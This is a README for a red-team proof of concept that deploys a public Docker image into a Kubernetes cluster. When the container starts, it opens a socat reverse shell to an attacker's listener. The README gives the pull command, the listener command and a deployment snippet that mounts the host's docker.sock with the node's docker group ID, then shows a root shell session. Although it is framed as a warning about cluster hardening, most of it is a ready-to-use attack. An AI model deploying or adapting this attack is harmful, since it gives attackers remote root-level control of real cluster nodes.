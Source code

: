 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart.

This deployment launches a docker container available in docker hub as below:

    docker pull jordimiralles/redteam-gkpown:latest

Whem the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same group id as the kubernetes noes, like this:

(...)
 spec:
      securityContext:
        fsGroup: 412    # Group ID of docker group on k8s nodes.
      containers:
        - name: gkpown
          image: jordimiralles/redteam-gkpown
          imagePullPolicy: Always
          volumeMounts:
            - name: dockersock 
mountPath: "/var/run/docker.sock"
(...)

So we should have access to all the node context.You can check it very easily:

'''
tux at basecamp in ~/code/github/redteam-gkpown (master●●)
$  socat file:`tty`,raw,echo=0 tcp-listen:9532
/bin/sh: can't access tty; job control turned off
/gkpown # 
/gkpown # 
/gkpown # 
/gkpown # 
/gkpown # whoami
root
/gkpown # df -h
Filesystem                Size      Used Available Use% Mounted on
overlay                  25.4G     18.3G      7.0G  72% /
tmpfs                     6.4G         0      6.4G   0% /dev
tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
/dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
/dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
/dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
/dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
shm                      64.0M         0     64.0M   0% /dev/shm
tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
tmpfs                     6.4G         0      6.4G   0% /proc/kcore
tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
tmpfs                     6.4G         0      6.4G   0% /sys/firmware
'''

